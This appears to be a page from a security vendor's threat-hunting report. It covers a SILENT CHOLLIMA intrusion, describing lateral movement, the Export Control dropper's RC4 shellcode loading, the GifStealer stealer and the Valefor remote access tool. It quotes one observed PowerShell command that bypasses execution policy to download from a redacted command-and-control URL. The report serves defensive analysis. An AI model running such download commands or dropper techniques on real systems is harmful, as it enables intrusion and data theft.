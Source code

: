What threat hunting delivers: Most of the activity involving this technique will 
be benign, everyday network activity, but hunters can start to pull the thread that 
may lead to the discovery of an adversary. Threat hunters proactively investigate 
lateral movement activity, enriched by contextual system events. For example, 
administrators frequently use the legitimate net.exe utility to map network shares, 
which by itself is expected activity. However, when observed alongside a connection 
from a remote machine, multiple transfer events, service creation events or 
scheduled task execution, this may indicate unauthorized access. 

SILENT CHOLLIMA Unleashes a Barrage of 
Custom Tooling 

As OverWatch continued to investigate the reconnaissance activity, the adversary 
used Smbexec to remotely copy low\-prevalence executables to disk and execute 
them. Collaboration between OverWatch and CrowdStrike Intelligence led to a quick 
determination that the files were an updated variant of Export Control, a malware 
dropper uniquely tied to SILENT CHOLLIMA. 

This determination was made based on the behavior of the Export Control dropper, 
which operates by decrypting and executing shellcode that is embedded within 
the Export Control files resources. A library function can be modified to run the 
malicious shellcode, and in this case the modified function was \_setmbcpy. 
The shellcode is then subsequently decrypted using a custom RC4 cipher 
implementation before it is loaded into memory and executed. In this instance, 
SILENT CHOLLIMA used this technique to load two further custom tools for 
post\-compromise actions on objectives. 

48

They started by deploying an information stealer named GifStealer, which runs a 
variety of host and network reconnaissance commands and archives the output 
within individual compressed files. The header of each file is appended with “.gif” 
to appear as a Graphics Interchange Format (GIF) image and is then added into a 
compressed archive41 with a pseudo random name, as seen in the example below.

C:\\Windows\\Temp\\\~62CEH72K.tmp

Next, the adversary used a separate Export Control dropper to load Valefor, a 
remote access tool (RAT) that SILENT CHOLLIMA developed for post\-compromise 
activity. Valefor uses Windows API functions and utilities to enable file transfer and 
data collection capabilities. 

Threat hunters discovered the Valefor trojan using a svchost process to perform 
beaconing and file access from a hard\-coded C2 URL through PowerShell, as seen below. 

powershell \-exec Bypass \-noP "while ($true) { $w\=(New\-Object 
System.Net.WebClient).DownloadString('\[REDACTED]'); echo $w;exit}"

OverWatch continued to alert the victim organization to the developing situation and 
the emerging attribution to SILENT CHOLLIMA.

Increased Visibility Unearths Further Adversary Activity 

OverWatch worked with the victim to ascertain the full scope of adversary activity 
within the victim environment by expanding the rollout of the Falcon sensor. 
OverWatch increased the organization's coverage and visibility into the intrusion 
through this rollout, ultimately uncovering adversary activity on six additional hosts. 
